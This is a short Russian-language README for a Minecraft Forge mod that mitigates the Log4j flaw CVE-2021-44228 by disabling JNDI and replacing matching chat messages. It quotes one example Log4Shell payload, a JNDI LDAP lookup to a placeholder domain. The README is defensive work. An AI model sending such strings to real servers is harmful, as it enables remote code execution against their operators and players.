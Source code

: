 # JndiRemover
Небольшой мод направленный на устранение уязвимости CVE-2021-44228 по средствам удаления/отключения Jndi в Log4j и 
перехват сообщений содержащих текст "${jndi:ldap://domainname.com/script}", которые будут заменены на ❤️.

Поддерживаемые версии MC:
Forge 1.7.10, 1.12.2